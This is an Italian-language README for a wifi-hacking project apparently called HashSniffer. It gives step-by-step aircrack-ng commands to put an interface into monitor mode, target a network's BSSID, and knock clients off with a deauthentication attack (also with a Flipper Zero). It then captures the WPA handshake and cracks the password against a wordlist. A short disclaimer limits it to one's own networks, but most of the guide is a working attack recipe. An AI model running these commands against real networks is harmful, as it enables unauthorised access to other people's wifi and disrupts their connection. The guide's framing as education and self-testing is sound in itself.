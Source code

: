 # Main

Il nostro progetto è stato quello di evidenziare le vulnerabilità di una rete wifi comune a 2.4GHz. Questo progetto nasce solo ed esclusivamente a scopo informativo e vi invitiamo a replicare il progetto con reti create da voi per verificarne le vulnerabilità.

Per seguire questa semplificare i vari comandi di testing, abbiamo creato un tool da eseguire in shell linux. Nella guida troverete sia come usare il tool che i comandi da eseguire manualmente. Ricordiamo inoltre che il tool è completamente source code.

## $${\color{aqua}Automated \space script}$$

Iniziamo scaricando la repo in locale:

```bash
$ git clone https://github.com/callmenoway/HashSniffer.git
$ cd HashSniffer
```

Successivamente eseguiamo il tool:

```bash
$ chmod +x hashsniffer.sh
$ ./hashsniffer.sh
```

## $${\color{green}Guida \space manuale}$$

Per iniziare ci servirà un OS Linux con scaricato il tool [Aircrack-ng](https://www.aircrack-ng.org/). Possibilmente usate come distro Kali in quanto preinstallato. Iniziamo aprendo un terminale e seguendo i seguenti comandi:\


```bash
┌(root💀kali)-[~]
│
┕$ iwconfig
```

<div align="center">

<img src="../.gitbook/assets/1.png" alt="">

</div>

Una volta eseguito il comando ci usciranno tutte le schede internet che possediamo sulla macchina. Per iniziare creiamo una scheda parallela virtuale per iniziare il listening delle reti:\


```bash
┌(root💀kali)-[~]
│
┕$ sudo airomon-ng start <YOURE WIRELESS EXTENSION>
```

<div align="center">

<img src="../.gitbook/assets/2.png" alt="">

</div>

Successivamente per visualizzare tutte le reti disponibili:\


```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng wlan0mon
```

\


<div align="center">

<img src="../.gitbook/assets/4.png" alt="">

</div>

Tra i risultati dobbiamo copiare il BSSID della rete in questione ed eseguire il comando:

```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng -canale -w NomeFile -d BSSID wlan0mon
```

In questo modo stiamo verificando solo la rete in questione.

## $${\color{green}Deauth \space \color{red} Attack}$$

Una volta che siamo in listening wifi possiamo procedere con il [Deauth Attack](https://en.wikipedia.org/wiki/Wi-Fi\_deauthentication\_attack) (Oggi useremo il Flipper Zero ma ci sono altre alternative come ESP32 Marauder ecc...). Iniziamo facendo una scansione delle reti, selezioniamo la rete in questione e iniziamo l'attacco.\
\
Deauth attack con Flipper Zero:

<div align="center">

<img src="../.gitbook/assets/flipper.jpg" alt="" width="300">

</div>

Attacco deauth integrato tramite il comando:\


```bash
┌(root💀kali)-[~]
│
┕$ sudo aireplay-ng --deauth 0 -a BSSID -c STATION wlan0mon
```

<div align="center">

<img src="../.gitbook/assets/5.png" alt="">

</div>

## $${\color{white}WPA \space \color{green}handshake \space \color{red}decrypt}$$

Una volta effettuato l'attacco sul terminale linux dovremo trovare un WPA handshake. Se non compare continuiamo l'attacco in modo che il dispositivo si ricolleghi. Una volta trovato il WPA handshake nella cartella locale troveremo dei file "NomeFile" che contengono tutte le informazioni che ci servono sulla rete. Per eseguire la decriptazione della password del wifi necessitiamo di un file che contenga molte password da provare sul file criptato. Per iniziare la decriptazione:\


```bash
┌(root💀kali)-[~]
│
┕$ sudo aircrack-ng NomeFile-01.cap -w Password.txt 
```

<div align="center">

<img src="../.gitbook/assets/6.png" alt="">

</div>

Il tempo di decriptazione può variare in base alla difficoltà della password e dalla lista che viene usata.

## $${\color{orange}Tools}$$

[Flipper Zero](https://flipperzero.one/) accoppiato con [ESP32](https://en.wikipedia.org/wiki/ESP32).\
Deauther fai da te: [Marauder](https://github.com/justcallmekoko/ESP32Marauder).\
Tool usato per condividere lo schermo in rete locale [Live-ScreenShare](https://github.com/callmenoway/Live-ScreenShare)
